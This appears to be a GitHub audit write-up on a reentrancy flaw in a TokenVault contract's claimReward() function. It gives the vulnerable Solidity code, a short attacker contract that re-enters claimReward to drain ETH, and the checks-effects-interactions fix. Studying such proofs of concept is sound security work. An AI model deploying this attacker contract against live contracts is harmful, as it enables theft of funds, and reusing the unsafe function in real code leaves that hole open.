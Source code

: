 # Token-Vault-Audit-Report
# 🧠 TokenVault | Critical Reentrancy Vulnerability Found

Welcome to a breakdown of a critical bug I discovered in a vault-style contract.  
This report isn’t just a vulnerability — it’s a look at how subtle logic can open the door to reentrancy even when everything looks clean.

---

## 🔍 What This Project Is About

I reviewed a basic ETH vault contract designed to reward users after they deposit. It had no obvious withdraw function, and reward logic was simple… or so it seemed.

The bug?  
A **reentrancy attack** — hiding inside the `claimReward()` function.

---

## ⚠️ The Vulnerability (claimReward)

Here’s the original logic:
```solidity
function claimReward() public {
    uint256 reward = rewards[msg.sender];
    require(reward > 0, "No reward to claim");

    (bool sent, ) = msg.sender.call{value: reward}("");
    require(sent, "Transfer failed");

    rewards[msg.sender] = 0;
}
```

It transfers ETH *before* zeroing the user’s reward.  
That’s all an attacker needs to re-enter and drain more than they earned.

---

## 🧪 How It Can Be Exploited

```solidity
contract Attacker {
    TokenVault public vault;

    constructor(address _vault) payable {
        vault = TokenVault(_vault);
    }

    function attack() external payable {
        vault.deposit{value: 1 ether}();
        vault.claimReward();
    }

    receive() external payable {
        if (address(vault).balance >= 1 ether) {
            vault.claimReward(); // attacker re-enters here
        }
    }
}
```

---

## 🛠️ How I Fixed It

✅ Applied the **Checks-Effects-Interactions** pattern:  
Update state *before* interacting externally.

```solidity
rewards[msg.sender] = 0;

(bool sent, ) = msg.sender.call{value: reward}("");
require(sent, "Transfer failed");
```

---

## 🧾 Why This Matters

This isn’t just a classic bug — it's a reminder that:

- Not all reentrancy issues live inside `withdraw()` functions  
- Reward, claim, and refund logic can be just as dangerous  
- You must always update state before sending ETH

---

## 📌 About Me

I’m Aayush — focused on smart contract auditing, vulnerability research, and building a real proof-of-work portfolio through public audits.

> This is the second public audit I’ve written and shared.  
> You can find all my work [on GitHub](https://github.com/AayushJhaAudits) and soon on my upcoming portfolio site.

---

## ✅ TL;DR

- ✅ Vulnerability: Reentrancy in reward logic  
- ✅ Severity: Critical  
- ✅ Found using: Manual review + logic trace  
- ✅ Fixed with: CEI pattern  
- ✅ Full PoC: Included  
